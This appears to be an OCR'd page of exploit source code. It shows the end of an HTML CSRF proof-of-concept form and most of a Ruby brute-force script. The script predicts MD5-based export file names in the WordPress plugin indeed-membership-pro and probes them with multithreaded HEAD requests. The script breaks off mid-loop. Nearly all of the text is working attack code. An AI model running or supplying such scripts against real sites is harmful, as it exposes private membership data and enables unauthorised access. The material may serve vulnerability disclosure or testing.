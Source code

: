 ```html
      });
    </script>
    <input type="text" id="target" size="50" value="https://example.com/" />
    <input type="button" id="attack" value="Execute CSRF" />
    <br /><br />Output:
    <button id="clear">Clear</button>
    <br /> <pre><div id="output"></div></pre>
  </body>
</html>
```

```ruby
# brute_force.rb
require 'typhoeus'
require 'digest'
require 'ruby-progressbar'
require 'thread'
require 'opt_parse_validator'

begin
  parsed_cli = OptParseValidator::OptParser.new.add(
    OptParseValidator::OptString.new(['--url URL', 'The URL of the blog'], required: true),
    OptParseValidator::OptInteger.new(['--start STARTING_TIMESTAMP', '-s', 'The Sarting timestamp'], required: true),
    OptParseValidator::OptInteger.new(['--end ENDING_TIMESTAMP', '-e', 'The Ending timestamp'], required: true),
    OptParseValidator::OptInteger.new(['--threads THREADS', '-t', 'The number of threads to used'], default: 15)
  ).results

  base_url = parsed_cli[:url]
  base_url << '/' unless base_url.end_with?('/')
  base_url << 'wp-content/plugins/indeed-membership-pro/'

  request_options = { proxy: parsed_cli[:proxy] }
rescue OptParseValidator::Error => e
  puts 'Parsing Error: ' + e.message
end

queue = Queue.new

(parsed_cli[:start]..parsed_cli[:end]).each do |time|
  10000.times.to_a.sample(10000).each do |i|
    filename = Digest::MD5.hexdigest("#{time}#{i}export") + '.xml'

    queue.push(base_url + filename)
  end
end

progress_bar = ProgressBar.create(total: queue.size, format: '%t %a <%B> (%c / %C) %P%% %e')
found        = false

begin
  workers = parsed_cli[:threads].times.map do
    Thread.new do
      while !queue.empty? && !found && url = queue.pop(true)
        begin
          res = Typhoeus.head(url, request_options)

          progress_bar.increment unless progress_bar.stopped?
          
          next unless res.code == 200

```